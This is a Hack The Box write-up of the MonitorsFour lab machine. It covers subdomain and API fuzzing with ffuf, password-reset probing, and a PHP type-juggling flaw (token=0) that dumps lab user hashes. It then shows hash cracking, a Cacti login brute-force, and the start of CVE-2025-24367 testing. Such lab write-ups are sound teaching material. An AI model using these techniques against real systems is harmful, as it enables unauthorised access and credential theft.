+++
date = '2026-05-07T11:18:43+01:00'
draft = false
title = 'HTB MonitorsFour'
tags = [
  'hackthebox', 'php', 'type-juggling', 'password-cracking', 'cacti', 'CVE-2025-24367', 'Docker Desktop',
  'CVE-2025-9074', 'windows', 'sliver-c2'
  ]
image = 'featured.png'
summary = """
MonitorsFour is an easy Windows box from HackTheBox in which we exploit a type juggling
vulnerability in an API to dump user credentials.
From the credentials, we login to a cacti instance which is vulnerable to `CVE-2025-24367`.
This vulnerability is exploited to gain a shell in a docker container and from the docker
container, `CVE-2025-9074` is exploited on Docker Desktop to launch another container which
mounts the `C:/` drive of the Windows host within the container and access the root flag.
"""
+++


# Introduction

The MonitorsFour box consists of a main PHP application listening on port 80, which
has an API that suffers from a PHP type juggling vulnerability which we exploit to dump usernames
and password hashes from its database.

We crack the hash of the Administrator user Marcus Higgins from this dump, and use it to login
to a cacti instance running on the same port as a virtual host.
The cacti version running on the box is cacti 1.2.28, and suffers from **CVE-2025-24367**,
which is an abuse of the graph creation and graph template functionalities in cacti, that allow us
to drop arbitrary php scripts at the webroot of the application and thus achieve Remote Code Execution.

From CVE-2025-24367, we get a shell within a docker container, and abuse **CVE-2025-9074**, which
is a vulnerability in Docker Desktop prior to version < 4.44.3 whereby the Docker Engine api is exposed
unauthenticated and accessible from within running containers. CVE-2025-9074 lets us spawn
a container to which we mount the root C:/ of the Windows host, and are thus able to access the
root flag in `C:/User/Administator/Desktop/root.txt`.


# Reconnaissance

## Nmap

An initial nmap scan showed that the following ports were open.

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
|_http-title: Did not follow redirect to http://monitorsfour.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The domain `monitorsfour.htb` was added to our `/etc/hosts`.

```
# /etc/hosts
10.129.44.157 monitorsfour.htb
```


## Tech stack

- The page has the title "MonitorsFour - Networking Solutions", and is about some kind of
company which offers Networking and Monitoring solutions.



- Wappalyzer identified that this Page is powered by `PHP 8.3.27`, this is confirmed with the header `X-Powered-By: PHP/8.3.27` in the request to the root `/` of the page.



```http
GET / HTTP/1.1
Host: monitorsfour.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 02 Jan 2026 10:04:53 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Set-Cookie: PHPSESSID=fb46eace60f2445b18852eee547eb9ad; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 13688
```


## Subdomain bruteforce

Following the blog post about `MonitorsThree` (The previous box in the series) of [`0xdf`](https://0xdf.gitlab.io/2025/01/18/htb-monitorsthree.html#), in which he found a subdomain `cacti.monitorsthree.htb`, separate from the main website `monitorsthree.htb`, which looks identical to that of `monitorsfour`, I decided to bruteforce subdomains on monitorsfour with `ffuf`, and I found the subdomain `cacti.monitorsfour.htb`.

```

       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.98
 :: Wordlist         : FUZZ: /opt/SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.monitorsfour.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 565ms]
:: Progress: [19966/19966] :: Job [1/1] :: 94 req/sec :: Duration: [0:05:42] :: Errors: 0 ::
```

- It was subsequently added to my `/etc/hosts` file.

```
10.129.44.157 monitorsfour.htb cacti.monitorsfour.htb
```


# Application Testing

## Testing Password Reset (Account enumeration)

- The only interactive functionality on the main website seemed to be the login functionality
- There is no ability to create an account, only to login and the option of recovering one's
  password in case we forget it.
- I tried to see if the Password reset functionality could be used to enumerate existing users
  on the server. This was done by providing a probably valid email account like `sales@monitorsfour.htb`
  (which was found on the website) or guesses like `admin@monitorsfour.htb` and see the responses it provides,
  and compare them with responses from accounts that don't probably exist, like `ljiouououo@monitorsfour.htb`.
- In both cases, the Password reset functionality kept on saying that if the email address provided is 
  associated with an account, an email will be sent to it.



- The domain part of the email address was also replaced with my IP address to see if I get some connect back from the server. I set up a netcat listener on my attacker machine on port 25 to listen for traffic. But got nothing.


## Testing Password Reset (Host Header injection)

Host Header injection is a technique used to abuse password reset functionalities. In this technique, the password reset function relies on the Host header of the user's request to derive the domain name that should be used to build the full password reset link. (e.g flask relying on `request.host` to get the domain name of the web app)

The attacker modifies the `Host: ` header, and puts in a domain/server IP he controls, and the final password reset link gets built with the attacker's domain.

When the user receives this link in his inbox mail and clicks on it, the attacker's server logs the url parameters made up of the password reset token. The attacker can then take this endpoint uri made of the password reset token and request it on the real website, and takeover the user's account.

I tried to modify the Host header of the password reset endpoint for the `sales@monitorsfour.htb` account, to the IP address of my attacker box, and see if a password reset link gets created at the backend that contains my ip (`10.10.15.5`), and gets autoclicked by a bot in the backend.

```http
POST /api/v1/reset HTTP/1.1
Host: 10.10.15.5
Content-Length: 30
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://monitorsfour.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://monitorsfour.htb/forgot-password
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=5e57c7434b67fc3ec4608a6368d7c0ce
Connection: keep-alive

email=sales%40monitorsfour.htb
```

I listened on port 80, and got no connect back.


## Directory bruteforcing

### `/api/v1/`

While watching the traffic created from interacting with the Password reset functionality, It was noticed that
the app performed requests towards `/api/v1` paths. So `/api/v1` was bruteforced to discover further endpoints
using with `ffuf`.

```sh
/tools/ffuf/ffuf -c -w /opt/SecLists-master/Discovery/Web-Content/raft-large-directories-lowercase.txt -u http://monitorsfour.htb/api/v1/FUZZ
```

```
user                    [Status: 200, Size: 35, Words: 3, Lines: 1, Duration: 3170ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3194ms]
users                   [Status: 200, Size: 35, Words: 3, Lines: 1, Duration: 396ms]
auth                    [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 720ms]
reset                   [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 3490ms]
```

From this the following endpoints were identified:

- `/api/v1/user`
- `/api/v1/users`
- `/api/v1/auth`
- `/api/v1/logout`
- `/api/v1/reset`


### `/controllers`

The `/controllers` path was identified when bruteforcing at the app's root `http://monitorsfour.htb`,
Along some other paths.

```
contact                 [Status: 200, Size: 367, Words: 34, Lines: 5, Duration: 300ms]
login                   [Status: 200, Size: 4340, Words: 1342, Lines: 96, Duration: 279ms]
user                    [Status: 200, Size: 35, Words: 3, Lines: 1, Duration: 1339ms]
static                  [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 299ms]
views                   [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 294ms]
controllers             [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 385ms]
forgot-password         [Status: 200, Size: 3099, Words: 164, Lines: 84, Duration: 287ms]
```

It returns 403 Forbidden error when browsed.

```http
GET /controllers/ HTTP/1.1
Host: monitorsfour.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=fb46eace60f2445b18852eee547eb9ad
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.1 403 Forbidden
Server: nginx
Date: Fri, 02 Jan 2026 10:38:24 GMT
Content-Type: text/html
Connection: keep-alive
Content-Length: 146
```

### `/views`

- The `/views` path was also bruteforced to identify futher content.

```
/tools/ffuf/ffuf -c -w /opt/SecLists-master/Discovery/Web-Content/raft-medium-files-lowercase.txt 
-u http://monitorsfour.htb/views/FUZZ
```

```
index.php               [Status: 200, Size: 13688, Words: 3598, Lines: 339, Duration: 308ms]
login.php               [Status: 200, Size: 4340, Words: 1342, Lines: 96, Duration: 329ms]
.htaccess               [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 506ms]
.                       [Status: 200, Size: 13688, Words: 3598, Lines: 339, Duration: 515ms]
.html                   [Status: 403, Size: 146, Words: 3, Lines: 8, Duration: 506ms]
forgot_password.php     [Status: 200, Size: 3099, Words: 164, Lines: 84, Duration: 355ms]
```


### `/api/v2` and other api versions

- Since there was an `/api/v1` endpoint on the target, I assumed there could be other versions
  of the api, like `/api/v2`, `/api/v3`, ... etc.
- To verify this assumption I bruteforced for other api versions, and actions using the following command.
  The command lets you use multiple wordlists with `ffuf`.

```sh
/tools/ffuf/ffuf -u http://monitorsfour.htb/api/API/ACTION -w ./api_versions.txt:API -w /opt/SecLists-master/Discovery/Web-Content/raft-medium-directories-lowercase.txt:ACTION
```
- Keywords in `./api_versions.txt` get substituted into the place of the word `API` within the `-u` parameter of the command.
- Keywords in `opt/SecLists-master/Discovery/Web-Content/raft-medium-directories-lowercase.txt` get substituted into
the place of `ACTION` within the `-u` parameter of the command.
- The content of `./api_versions.txt` was as follows

```sh
$cat api_versions.txt 
v1
v2
v3
v4
v5
v6
v7
v8
v9
v10
v11
v12
```


## Missing `token` parameter.

When trying to browse some `/api/v1` paths, the error `Missing token parameter` was observed
in responses. These were primarily:

- `/api/v1/users` and
- `/api/v1/user`


### `/api/v1/users`

- From its name, one might infer that this endpoint has something to do with providing informations about
  users accounts on the VM (target).
- A `GET` request to this endpoint returns the error `Missing token parameter` in the api response
- Request:

```http
GET /api/v1/users HTTP/1.1
Host: monitorsfour.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=70fbcfc3dd36e6f5ece6a04f42bf6bf8
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

- Response:

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 07 Jan 2026 04:18:03 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 35

{"error":"Missing token parameter"}
```

- When the request was altered to add the `GET` parameter `?token`, the error changes
  and becomes `Invalid or missing token`.
- Altered Request

```http
GET /api/v1/users?token=foo HTTP/1.1
Host: monitorsfour.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=70fbcfc3dd36e6f5ece6a04f42bf6bf8
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

- New error response

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 07 Jan 2026 04:20:06 GMT
Content-Type: application/json
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 36

{"error":"Invalid or missing token"}
```


### `/api/v1/user`

- When trying to access the `/api/v1/user` path using an invalid token value (`?token=foo`),
  the error `Missing ID parameter` is obtained from the response.

```http
GET /api/v1/user?token=foo HTTP/1.1
Host: monitorsfour.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=70fbcfc3dd36e6f5ece6a04f42bf6bf8
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 07 Jan 2026 04:22:52 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 32

{"error":"Missing ID parameter"}
```

- If an id is supplied such as `?id=foo`, the error message from the response becomes `Invalid or missing token`.

```http
GET /api/v1/user?token=foo&id=foo HTTP/1.1
Host: monitorsfour.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=70fbcfc3dd36e6f5ece6a04f42bf6bf8
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 07 Jan 2026 04:27:45 GMT
Content-Type: application/json
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 36

{"error":"Invalid or missing token"}
```


# Exploitation

## Fuzzing the `?token` parameter

Based on the interaction with the previous api endpoints (`/api/user` and `/api/users`), it was
assumed that the `token` parameter could be used in some kind of SQL query at the backend involving the resources
under request. So it was fuzzed for an SQL injection using a generic list of SQLi payloads
from [SecLists](https://github.com/danielmiessler/seclists), `/opt/SecLists-master/Fuzzing/Databases/SQLi/Generic-SQLi.txt`.

Using the command below fuzzing was done.

```sh
ffuf -u http://monitorsfour.htb/api/v1/users?token=FUZZ -w /opt/SecLists-master/Fuzzing/Databases/SQLi/Generic-SQLi.txt:FUZZ -ac 
```

- The parameter `-ac` above does automatic calibration/filtering, but to be more explicit, we can use the `-fr` option,
  which does filtering by regular expression.
- What we want to filter out of the requests are instances in which we get responses with the phrase `Invalid or missing token`.

```sh
/tools/ffuf/ffuf -u 'http://monitorsfour.htb/api/v1/users?token=FUZZ' -w /opt/SecLists-master/Fuzzing/Databases/SQLi/Generic-SQLi.txt:FUZZ  -fr "Invalid or missing token"
```

- When we do that, the request with payload `0` stands out of the command's output.

```
 :: Method           : GET
 :: URL              : http://monitorsfour.htb/api/v1/users?token=FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists-master/Fuzzing/Databases/SQLi/Generic-SQLi.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid or missing token
________________________________________________

0                       [Status: 200, Size: 1113, Words: 10, Lines: 1, Duration: 418ms]
:: Progress: [268/268] :: Job [1/1] :: 75 req/sec :: Duration: [0:00:04] :: Errors: 2 ::
```

- When this request is replayed in BurpSuite with the parameter `?token=0`, we get a JSON dump of all
  users of the application.

```http
GET /api/v1/users?token=0 HTTP/1.1
Host: monitorsfour.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 23 Jan 2026 05:19:56 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Set-Cookie: PHPSESSID=69053d7663d5df3983905883893b29b8; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1113

[{"id":2,"username":"admin","email":"admin@monitorsfour.htb","password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user","token":"8024b78f83f102da4f","name":"Marcus Higgins","position":"System Administrator","dob":"1978-04-26","start_date":"2021-01-12","salary":"320800.00"},{"id":5,"username":"mwatson","email":"mwatson@monitorsfour.htb","password":"69196959c16b26ef00b77d82cf6eb169","role":"user","token":"0e543210987654321","name":"Michael Watson","position":"Website Administrator","dob":"1985-02-15","start_date":"2021-05-11","salary":"75000.00"},{"id":6,"username":"janderson","email":"janderson@monitorsfour.htb","password":"2a22dcf99190c322d974c8df5ba3256b","role":"user","token":"0e999999999999999","name":"Jennifer Anderson","position":"Network Engineer","dob":"1990-07-16","start_date":"2021-06-20","salary":"68000.00"},{"id":7,"username":"dthompson","email":"dthompson@monitorsfour.htb","password":"8d4a7e7fd08555133e056d9aacb1e519","role":"user","token":"0e111111111111111","name":"David Thompson","position":"Database Manager","dob":"1982-11-23","start_date":"2022-09-15","salary":"83000.00"}]
```


## Cracking Hashes

- After dumping the users informations in the previous step, the password hashes obtained where
cracked using [crackstation](https://crackstation.net/).
- The hash for the user with username `admin` (Marcus Higgins) was successfully cracked into the
password `wonderful1`.




## Login to main website

- With the credentials `admin:wonderful1` it became possible to login to the main website.



- Overall, it is a Dashboard for managing ads campaigns and invoices for various customers
- It also serves as a platform for planning tasks, and sort them by priority.
- It possesses a Changelog section at `http://monitorsfour.htb/admin/changelog`
- An infrastructure notice from this Changelog says that the infrastructure has been migrated to Windows
and the websites are running on Docker via **Docker Desktop 4.44.2** (This is an important point later).




# Cacti

## Login to Cacti

- The site runs cacti version 1.2.28



- Since at this point the password for the `admin` user on the main website had been obtained,
The next step was to try this password on cacti.
- To achieve this, a small list of usernames was constructed based on the name information of the `admin` user
from the main website.

```
admin
marcus
mhiggins
higgins
```

- The login form of cacti is protected by a dynamic CSRF token.
- A [bruteforce script](https://github.com/r0psteev/hackthebox/blob/main/monitorsfour/brute.py) with **python**, **requests** and **beautifulsoup4** which grabbed the CRSF token was made
to automate this action over every element of the wordlist.

```sh
$python brute.py 
[+] might have found working combo: marcus:wonderful1

```
- The combination `marcus:wonderful1` was found to login successfully to cacti.
- After login to cacti, we could see the failed login attempts from our script in the Logs tab.
- The login attempts are said to come from the IP address `172.18.0.1`, which looks like a docker
network address. So it was assumed that may be cacti was in a container too.




## CVE-2025-24367

According to the Github Advisory [GHSA-fxrq-fr7h-9rqq](https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq), an authenticated user can deposit arbitrary php scripts at the
webroot of Cacti <= 1.2.28, by abusing the graph creation and graph template functionality, leading to
remote code execution.

[Vulhub](https://github.com/vulhub/vulhub/tree/master/cacti/CVE-2025-24367) provides a docker based environment for experimenting with this vulnerability on Cacti 1.2.28.
So Cacti 1.2.28 was first deployed locally to experiment with the vulnerability and refine the payload
where necessary.

### Testing CVE-2025-24367 locally

To exploit this vulnerability, the procedure is as follows:

- Go to `Console -> Templates -> Graph` and search for `PING - Advanced Ping`.

